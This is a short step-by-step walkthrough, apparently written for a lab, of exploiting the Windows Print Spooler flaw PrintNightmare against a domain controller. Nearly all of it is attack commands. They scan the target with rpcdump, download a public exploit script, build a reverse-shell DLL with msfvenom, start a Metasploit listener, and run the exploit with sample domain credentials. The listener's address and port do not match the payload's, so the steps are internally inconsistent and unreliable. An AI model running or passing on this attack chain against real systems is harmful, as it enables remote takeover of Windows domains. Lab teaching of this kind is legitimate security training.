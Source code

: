 ## Scanning Vulnerable hosts with rpcdump.py

```powershell
# rpcdump.py @DC-IP | egrep 'MS-RPRN|MS-PAR'
$ rpcdump.py @192.168.1.10 | egrep 'MS-RPRN|MS-PAR'
```

**_Expected Output :_**

```
Protocol: [MS-RPRN]: Print System Remote Protocol 
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol
```


![](https://i.imgur.com/GkOuslZ.png)


### Preparation in Kali

Open a terminal and enter the following commands. This will get an alternate package of impacket and will download the python script needed for this exploit

```powershell
$ cd /opt/
$ sudo pip3 uninstall impacket
$ git clone https://github.com/cube0x0/impacket
$ cd impacket
$ sudo python3 ./setup.py install
$ wget https://raw.githubusercontent.com/cube0x0/CVE-2021-1675/main/CVE-2021-1675.py
```


![exploit for the PrintNightmare](https://i.imgur.com/jCILEM9.png)


Now we are going to create the DLL that we will be using to create a reverse shell. Type in the following command and change the IP to your kali machine IP and copy the dll to the tmp directory


```powershell
$ sudo msfvenom -f dll -p windows/x64/shell_reverse_tcp LHOST=192.168.0.157 LPORT=7777 -o reverse.dll
```




Next we will start a listener with `msfconsole`. Type in the following commands

```powershell
$ msfconsole
msf6 > use multi/handler
msf6 > set PAYLOAD windows/x64/shell_reverse_tcp
msf6 > set LHOST 10.0.0.132
msf6 > set LPORT 443
msf6 > run
```

![exploit the PrintNightmare](https://www.thedutchhacker.com/wp-content/uploads/2021/07/image-3.png)

## Exploiting the PrintNightmare

Navigate to the tmp directory as that is where we have our `.py` file. Type in the following command to start the exploit. Please do change the **IP** address to your lab environment. 
**Note :** the first **IP** is the **Domain Controller-IP** and the second **IP** is the kali machine

```
sudo python3 CVE-2021-1675.py marvel.local/fcastle:Password1@192.168.0.149 '\\192.168.0.157\smb\reverse.dll'
```

![exploit the PrintNightmare](https://www.thedutchhacker.com/wp-content/uploads/2021/07/image-4-1024x876.png)

## Reference

- [CVE-2021-34527 – Security Update Guide – Microsoft – Windows Print Spooler Remote Code Execution Vulnerability](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527)
- [GitHub – cube0x0/CVE-2021-1675: C# and Impacket implementation of PrintNightmare CVE-2021-1675/CVE-2021-34527](https://github.com/cube0x0/CVE-2021-1675)